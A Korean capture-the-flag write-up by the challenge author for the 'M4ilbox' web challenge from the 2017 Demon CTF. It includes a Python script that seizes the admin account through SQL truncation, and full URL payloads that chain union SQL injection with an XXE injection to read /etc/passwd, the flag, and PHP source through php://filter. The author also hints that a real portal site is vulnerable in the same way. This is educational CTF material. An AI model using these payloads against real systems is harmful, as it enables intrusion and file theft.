 # WhiteHat League 1 - Demon CTF [![Awesome](https://cdn.rawgit.com/sindresorhus/awesome/d7305f38d29fed78fa85652e3a63e154dd8e8829/media/badge.svg)](https://github.com/sindresorhus/awesome)
M4ilbox Write-Up - 출제자 풀이
-----------------------------------

## Introduce
* Author : 윤석찬 ([ch4n3](http://chaneyoon.tistory.com))
* Field  : Web Hacking
* E-Mail : chaneyoon@gmail.com
* Date   : 2017-09-12

## Intention
* 전체적인 컨셉으로는 실제 **리얼월드**에서 검색할 때 일어날 수 있는 취약점을 기본으로 함.
* 공격 벡터가 많은 웹 어플리케이션에서 취약한 벡터를 찾는 것이 관건이었음.
* 플래그 형식은 **Demon{...}**

## Solve
* [challenge url](http://108.61.161.168:8080/)

### 1. Functions Analyse
> 먼저 공격 벡터가 있을 만한 기능부터 봐 보자
-   로그인 / 회원가입 기능 (아마도 SQL Injection)
-	메일 보내기 기능
-	중요 메일 확인, 내가 쓴 메일, 내가 받은 메일 확인 기능
-	Members라고 쓰여져 있는 관리자만 사용할 수 있는 기능


저 공격벡터 중에 관리자만 사용할 수 있는 기능이 수상한데,
어드민 권한을 획득하려면 뭔갈 해야하는 듯..?

공격 벡터 중에 어드민의 권한을 가져올 수 있는 방법이 있을까?

### 2. admin 권한 탈취
- 일단 XSS로 admin 권한을 획득할 수 있겠고..
- 만약에 회원가입에서 SQL Injection이 된다면 admin이라는 값을 자신의 임의대로 넣을 수도 있음ㅋㅋ
- 근데 아무리 SQLMAP같은 퍼저를 돌려도 회원가입에서 취약점이 안나올 것이다. 
왜냐면 addslashes()를 사용자의 모든 input에 대해 때려 박았거등요~~~~
- 그럼 역시 XSS로 해야되나.. 생각할 수도 있겠는데
정작 admin의 권한을 얻는 취약점은 회원가입 부분이다.
- 취약점은 바로 SQL Truncation Attack~~~~


다음 코드로 admin의 권한을 획득할 수 있다ㅋㅋㅋㅋ

```{.python}
#!/usr/bin/python
# coding: utf-8

import requests

url = 'http://108.61.161.168:8080/join/ok.php'

data = {
	'firstName'	: 'SoekChan',
	'lastName'	: 'Yoon',
	'age'		: 17,
	'id'		: 'admin' + ' ' * 100 + 'a',
	'password'	: 'tmxkdnjwm123',
	'password_confirmation': 'tmxkdnjwm123'
}

r = requests.post(url, data=data)
print(r.text)
```

### 3. admin 권한 획득 후 공격 진행
- admin 권한을 획득하면 members 탭에서 member들을 검색할 수 있는 권한을 얻는다.
- members에서 id를 입력하고 검색하면 해당 유저에 대한 정보들이 뜬다.
- 근데 정보를 얻는 방식이...?

    http://108.61.161.168:8080/members/beautify.php?url=http://108.61.161.168:8080/members/search.php?search=admin%26encoding=UTF-8 

- url 파라미터로 넘긴 값에 뭐가 있을지 한 번 들어가보자

    http://108.61.161.168:8080/members/search.php?search=admin&encoding=UTF-8   
- 위의 링크로 접속해보면 **xml 형식**으로 정보를 전달하는 것을 알 수 있다. (~~코럼 행님, XXE각 나오는 부분 ㅇㅈ? ㅇㅇㅈ~~)

### 4. Exploit Using XXE
- search.php 에서 검색을 할 때 **SQL Injection 취약점**이 발생한다는 것을 알 수 있다. 
- 엌ㅋㅋㅋㅋ 그럼 **union based SQLi**를 진행하면 xml 파일 조작 가능하고 고럼 쉽게 뚫릴 것 같은뎈ㅋㅋㅋ
- 근데 union sql injection으로 조작할 수 있는 범위는 한계가 있다. 
- 근데 encoding 파라미터는 뭐지..?
- encoding 파라미터를 변환시켜보면 xml파일의 **Prolog가 변한다**. (~~개꿀~~)
~~encoding값을 변화시켜 xml을 조작하는 것은 전혀 게싱이 아니다. 국내 포털사이트 중 이러한 방법을 통해서 exploit 할 수 있는 곳이 있다ㄷㄷ~~
- 그래서 두 취약점을 합쳐서 XXE를 진행할 수 있다. 
http://108.61.161.168:8080/members/search.php?search=%27union%09select%091,%22--%3E%3Cuser%3E%3Cid%3E%2526xxe;%22,3,4,5,6--%09-&encoding=UTF-8%22?%3E%3C!DOCTYPE%20foo%20[%20%3C!ELEMENT%20foo%20ANY%20%3E%20%3C!ENTITY%20xxe%20SYSTEM%20%22file:///etc/passwd%22%20%3E]%3E%3C!--
- 이렇게 XXE를 통해서 /etc/passwd를 읽어올 수 있다. 그럼 다시 beautify.php에 url 파라미터로 적절한 url encoding을 사용해서 접속해보자.
http://108.61.161.168:8080/members/beautify.php?url=http://108.61.161.168:8080/members/search.php?search=%27union%09select%091,%22--%3E%3Cuser%3E%3Cid%3E%2526xxe;%22,3,4,5,6--%09-%26encoding=UTF-8%22?%3E%3C!DOCTYPE%20foo%20[%20%3C!ELEMENT%20foo%20ANY%20%3E%20%3C!ENTITY%20xxe%20SYSTEM%20%22file:///etc/passwd%22%20%3E]%3E%3C!--
- 그리고 플래그는 최상위 경로에 있다고 했으니까 file:///flag 를 읽어오면 된다.

### 5. Other Exploit
- XXE를 통해서 읽기 권한이 있는 모든 파일에 접근할 수 있게 되었다. 
- 그럼 해당 어플리케이션의 소스는 볼 수 없을까?
- 당연히 있다. 하지만, 해당 웹 어플리케이션의 절대 경로를 알아내야 한다. ~~슈퍼게싱~~
- 는 구라고 절대경로를 알지 않고서도 소스를 볼 수 있다.
- 바로 /proc/self/cwd 를 이용하면 된다ㅋㅋㅋㅋㅋ
- file:///proc/self/cwd/index.php를 XXE로 읽어오려고 하면 어떤 이유에선지 되지 않는다.
- 하지만, php://filter/convert.base64-encode/resource=/proc/self/cwd/index.php로 읽어올 수 있는 것을 확인했다.
http://108.61.161.168:8080/members/beautify.php?url=http://108.61.161.168:8080/members/search.php?search=%27union%09select%091,%22--%3E%3Cuser%3E%3Cid%3E%2526xxe;%22,3,4,5,6--%09-%26encoding=UTF-8%22?%3E%3C!DOCTYPE%20foo%20[%20%3C!ELEMENT%20foo%20ANY%20%3E%20%3C!ENTITY%20xxe%20SYSTEM%20%22php://filter/convert.base64-encode/resource=/proc/self/cwd/index.php%22%20%3E]%3E%3C!--
- 그리고 웹 디렉토리 최상위 경로에 있는 index.php도 볼 수 있다. 
http://108.61.161.168:8080/members/beautify.php?url=http://108.61.161.168:8080/members/search.php?search=%27union%09select%091,%22--%3E%3Cuser%3E%3Cid%3E%2526xxe;%22,3,4,5,6--%09-%26encoding=UTF-8%22?%3E%3C!DOCTYPE%20foo%20[%20%3C!ELEMENT%20foo%20ANY%20%3E%20%3C!ENTITY%20xxe%20SYSTEM%20%22php://filter/convert.base64-encode/resource=/proc/self/cwd/../index.php%22%20%3E]%3E%3C!--
이렇게
- 그리고 자신이 알고 있는 다른 취약점을 찾아서 exploit 해보면 된다. 
~~근데 나는 모르겠다~~

# 끝

